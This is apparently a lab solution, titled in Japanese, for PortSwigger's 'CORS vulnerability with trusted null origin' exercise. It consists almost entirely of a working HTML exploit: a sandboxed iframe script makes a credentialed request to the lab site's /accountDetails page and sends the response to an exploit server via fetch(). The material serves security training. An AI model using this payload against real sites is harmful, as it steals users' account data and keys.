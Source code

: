 # 信頼できる null オリジンによる CORS の脆弱性
https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack
```html
<html>
  <body>
    <iframe style="display: none" sandbox="allow-scripts"
    srcdoc="
    <script>
        var xhr = new XMLHttpRequest();
        var url = "https://0a74008f04ed5888809304a5004d0053.web-security-academy.net";

        xhr.onreadystatechange = function () {
          if (xhr.readyState == XMLHttpRequest.DONE) {
            fetch("https://exploit-0af000610409589e80b502ec01940012.exploit-server.net/exploit/log?key=" + xhr.responseText);
          }
        };
        xhr.open("GET", url + "/accountDetails", true);
        xhr.withCredentials = true;
        xhr.send(null);
    </script>"></iframe>
  </body>
</html>
```
